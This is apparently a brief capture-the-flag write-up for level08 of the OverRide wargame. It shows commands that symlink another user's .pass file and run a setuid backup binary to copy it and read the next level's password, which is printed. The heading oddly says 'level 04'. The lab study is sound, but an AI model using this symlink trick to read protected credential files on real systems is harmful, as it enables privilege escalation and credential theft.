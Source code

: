 # level 04

## get_binary

```shell
scp -P 4242 level08@192.168.0.0:/home/users/level08/level08 level08.bin
```

## Exploit

```shell
level08@OverRide:~$ chmod 777 .
level08@OverRide:~$ ln -s /home/users/level09/.pass flag
level08@OverRide:~$ ./level08 flag
level08@OverRide:~$ cat backups/flag 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
